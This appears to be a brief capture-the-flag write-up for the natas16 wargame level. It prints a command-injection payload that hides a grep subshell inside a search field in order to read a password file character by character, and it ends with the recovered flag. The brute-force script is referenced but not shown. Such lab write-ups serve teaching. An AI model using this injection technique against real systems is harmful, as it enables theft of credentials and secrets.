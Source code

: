 ```yaml
---
layout: default
title: natas16
---
```




here we inject this payload: 
`$(grep -E ^{password} /etc/natas_webpass/natas17)African`.
if the password is in the file, so the word ??African won't be in the dictionary.
here we do brute force, the source code is here [level16]
```python
{% include_relative scripts/level16.py %}
```



**Flag:** ***`EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`*** 